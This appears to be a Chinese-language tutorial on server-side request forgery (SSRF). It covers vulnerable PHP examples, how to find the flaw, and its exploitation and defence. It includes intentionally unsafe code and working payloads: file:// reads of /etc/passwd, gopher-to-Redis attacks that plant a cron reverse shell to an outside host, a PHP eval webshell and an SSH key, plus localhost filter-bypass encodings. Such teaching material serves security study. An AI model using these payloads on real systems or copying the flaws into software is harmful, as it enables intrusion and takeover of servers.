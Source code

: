 # SSRF

>SSRF (Server-Side Request Forgery:服务请求伪造)，指构造payload攻击脚本诱导服务器发起请求，使服务器执行非本意操作，常用于内网服务的攻击

**0x01 与CSRF区别**

- CSRF是跨站请求伪造漏洞,是诱导用户点击，欺骗的是客户端，SSRF是诱导服务器访问，欺骗服务器

## 0x02 漏洞原理

**file_get_contents**

- 将整个文件或一个url所指向的文件读入一个字符串中，并展示给用户 

```php
<?php
highlight_file("demo1.php");
error_reporting(0);
//ssrf -> file_get_contents
//file_get_contents() 函数将整个文件或一个url所指向的文件读入一个字符串中，并展示给用户
$url = $_GET['url'];;
echo file_get_contents($url);
?> 
```

**fsockopen**

- 打开一个网络连接或者一个Unix 套接字连接，实现对用户指定url数据的获取。该函数会使用socket跟服务器建立tcp连接，进行传输原始数据。 

```php
<?php
highlight_file("demo2.php");
error_reporting(0);
//ssrf -> fsockopen
//fsockopen用于打开一个网络连接或者一个Unix 套接字连接，实现对用户指定url数据的获取。该函数会使用socket跟服务器建立tcp连接，进行传输原始数据。
$host=$_GET['url'];
$fp = fsockopen($host, 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?> 
```

**curl_exec**

- 对远程的url发起请求

```php
<?php 
highlight_file("demo3.php");
error_reporting(0);
//ssrf -> curl_exec
//前端传进来的url使用 curl_exec()进行了请求，然后将请求的结果返回给了前端
if (isset($_GET['url'])){
    $link = $_GET['url'];
    $curlobj = curl_init(); // 创建新的 cURL 资源
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1); // 设置 URL 和相应的选项
    $result=curl_exec($curlobj); // 抓取 URL 并把它传递给浏览器
    curl_close($curlobj); // 关闭 cURL 资源，并且释放系统资源
 
    // $filename = './curled/'.rand().'.txt';
    // file_put_contents($filename, $result); 
    echo $result;
}
?> 
```

## 0x03 漏洞挖掘

**白盒**

- 找上述三个函数

**黑盒**

- 看网站请求消息中有没有url存在，如果有就改成payload测试，比如改成DNSlog平台提供的url,看是否有访问记录

## 0x04 漏洞利用

**读取敏感文件**

- 利用伪协议读取本地文件
  - file:///etc/passwd
  - file://c:/windows/win.ini

**内网服务探测**

  - dict://127.0.0.1:3306 (Mysql)
  - dict://127.0.0.1:22 (SSH)
  - dict://127.0.0.1:6379 (Redis)
  - dict://127.0.0.1:1433 (SqlServer)

**内网服务攻击**

  - gopher ★（可以发送任意TCP数据，默认端口70）
    - gopher://127.0.0.1/_+TCP数据包
      1. 开启监听nc -lvvp 70
      2. curl gopher://127.0.0.1/_testdata

- gopher发起请求的方式
      1. 构造HTTP的请求消息
      2. 对请求消息进行url编码
      3. 把编码后的%0A替换成%0D%0A
      4. 将替换后的数据再一次进行url编码
      5. 拼接协议头gopher://ip/_testdata

**gopher攻击Redis**

- 先检测Redis是否存在

  -  dict:/192.168.10.11:6379
     -  dict://192.168.10.11:6379/info
     -  dict://192.168.10.11:6379/ping

- 写计划任务 (可以利用[Gopherus](https://github.com/tarunkant/Gopherus)工具生成payload)

  ```shell
  flush set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.10.11/4567 0>&1\n\n' config set dir 
  ```

- Redis写webshell (可以利用[Gopherus](https://github.com/tarunkant/Gopherus)工具生成payload)

  ```shell
  flushall
  set 1 '<?php eval($_GET["cmd"]);?>'
  config set dir /var/www/html
  config set dbfilename shell.php
  save
  ```

- Redistribution写ssh公钥

  - [redis-ssrf](https://github.com/xmsec/redis-ssrf)

  ```shell
  flushal
  set 1 '生成的RSA公钥'
  config set dir /root/.ssh/
  config set dbfilename authorized_keys
  save
  ```

  - 1. 生成公私钥对（创造锁和钥匙），这个命令在任何的机器上执行都可以，不一定非要在本机

    - ssh keygen
    - id_rsa (私钥，钥匙)
    - id_rsa.pub (公钥，锁)

  - 2. 把公钥写在linux主机用户目录.ssh/authorized_keys （上锁）

  - 3. 使用私钥登录ssh

    - ssh user@ip -i id_rsa

## 0x05 漏洞绕过

- 利用特殊字符或改写绕过url限制
  - http://127。0。0。1/
  - http://127.1/
  - http://127. 0.0.1./
  - http://[::]:80/
  - http://0x7f.0.0.1/

## 0x06 漏洞防御

- 过滤除http和https以外的所有协议头（白名单协议头必须是http或https）
- 设置url白名单或黑名单（比如百度翻译不允许访问dnslog和bbc）
- 不允许访问内网资源，或不允许访问ip（比如不允许访问localhost）

[其他资料](https://xz.aliyun.com/t/2115)